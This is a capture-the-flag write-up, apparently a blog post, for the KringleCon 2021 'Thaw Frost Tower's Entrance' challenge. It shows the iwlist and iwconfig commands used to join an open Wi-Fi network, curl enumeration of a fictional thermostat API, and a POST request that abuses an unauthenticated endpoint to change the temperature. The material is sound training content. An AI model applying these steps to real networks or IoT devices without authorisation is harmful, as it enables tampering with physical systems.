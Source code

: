 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Thaw Frost Tower's Entrance
layout: post.njk
description: >
  A short description of the article
eleventyNavigation:
  key: Post
  title: Thaw Frost Tower's Entrance
  parent: KringleCon2021Posts
---
```

# Introduction
This challenge will grant us access to Jacks Frost Tower casino, it's ranked 2/5 christmas trees in difficulty. To gain access to this challenge you will need a wifi-adapter that you recived at the entrance. The description for the  challenge is:
Turn up the heat to defrost the entrance to Frost Tower. Click on the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips.

To access this challenge you have to go up to the left window of the Frost Tower. This is just in range for your wifi adapter to access the wifi network inside of the building.

# Reconnaissance
Upon opening your wifi adapter you are prompted to use either iwlist or iwconfig. In short terms, iwlist will be used to find the network, while iwconfig will connect us to the network.
```
elf@ba5601fa8f6d:~$ iwlist scanning
wlan0     Scan completed :
          Cell 01 - Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```
To connect I used this stack exchange link to explain the basics. https://unix.stackexchange.com/questions/92799/connecting-to-wifi-network-through-command-line
In short it is:
```
elf@5814182a0370:~$ iwconfig wlan0 essid FROST-Nidus-Setup key s:off

** New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup
(The setup is compatible with the 'curl' utility)
```
Success, we are connected. And immedietly we are prompted with the next step. To enumerate the nidus-setup and find out what we can find.

# Enumeration
Well, the mission is to thaw the entrance so we have to find out whats on that webpage.

```
elf@5814182a0370:~$ curl http://nidus-setup:8080/
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat Setup

◈──────────────────────────────────────────────────────────────────────────────◈

WARNING Your Nidus Thermostat is not currently configured! Access to this
device is restricted until you register your thermostat » /register. Once you
have completed registration, the device will be fully activated.

In the meantime, Due to North Pole Health and Safety regulations
42 N.P.H.S 2600(h)(0) - frostbite protection, you may adjust the temperature.

API

The API for your Nidus Thermostat is located at http://nidus-setup:8080/apidoc
```
So it seems like we can either register the product or check out the apidoc. If we check out the register page first, this is what we are prompted with:
```
to the Nidus Thermostat registration! Simply enter your serial number
below to get started. You can find the serial number on the back of your
Nidus Thermostat as shown below:
Serial Number: ______________________


             +------------+
             |   Submit   |
             +------------+
```

So we can try to brute force this, but it's better to enumerate further.

```
elf@5814182a0370:~$ curl http://nidus-setup:8080/apidoc
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat API

◈──────────────────────────────────────────────────────────────────────────────◈

The API endpoints are accessed via:

http://nidus-setup:8080/api/<endpoint>

Utilize a GET request to query information; for example, you can check the
temperatures set on your cooler with:

curl -XGET http://nidus-setup:8080/api/cooler

Utilize a POST request with a JSON payload to configuration information; for
example, you can change the temperature on your cooler using:

curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -40}' \
  http://nidus-setup:8080/api/cooler


● WARNING: DO NOT SET THE TEMPERATURE ABOVE 0! That might melt important furniture

Available endpoints

┌─────────────────────────────┬────────────────────────────────┐
│ Path                        │ Available without registering? │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/cooler                 │ Yes                            │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/hot-ice-tank           │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/snow-shower            │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/melted-ice-maker       │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/frozen-cocoa-dispenser │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/toilet-seat-cooler     │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/server-room-warmer     │ No                             │ 
└─────────────────────────────┴────────────────────────────────┘
```
Perfect, we can change the cooler temperature without registering the product! So by simply adjusting the temperature there we are able to melt the entrance.
The output also provides us with the commands nessecary.

# Exploit, I guess
If you're careless you can easily melt everything by just increasing the temperature an insane amount. If you want to be careful you can increase the temperature slowly. The outcome is the same anyway.

```
elf@5814182a0370:~$ curl -XPOST -H 'Content-Type: application/json'  --data-binary '{"temperature": 1000}'  http://nidus-setup:8080/api/cooler
{
  "temperature": 1000.05,
  "humidity": 67.94,
  "wind": 15.76,
  "windchill": 1233.38,
  "WARNING": "ICE MELT DETECTED!"
}
```

Success, the entrance is thawed and you can enter!
